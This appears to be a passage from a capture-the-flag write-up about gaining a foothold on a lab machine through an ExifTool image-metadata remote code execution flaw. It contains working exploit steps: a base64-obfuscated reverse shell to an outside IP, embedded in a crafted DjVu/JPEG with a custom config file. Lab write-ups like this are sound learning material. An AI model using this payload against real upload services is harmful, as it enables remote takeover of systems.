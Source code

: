 
There is a subdomain at the page dev01.artcorp.htb

![](https://i.imgur.com/aaQCiTF.png)

We have image upload.

![](https://i.imgur.com/FrYOE1d.png)

## Foothold
---
Create payload

```
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTExLzQ0NDQgMD4mMQ== | base64 -d | bash')};")
```
Simple reverse shell encoded in base64 to avoid input sanitization

Insert malicious payload into an image
Courtesy of: [This blog](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

```
bzz payload payload.bzz
# Compress our payload file with to make it non human-readable
 
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
# INFO = Anything in the format 'N,N' where N is a number
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as background image
# ANTz = Will write the compressed annotation chunk with the input file

exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg
# configfile = The name of our configuration file;
# -HasselbladExif = Tag name that are specified in the config file;
# exploit.djvu = Our exploit, previously made with djvumake;
# hacker.jpg = A valid JPEG file;
```

Config file (Required for the last step)

```
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```
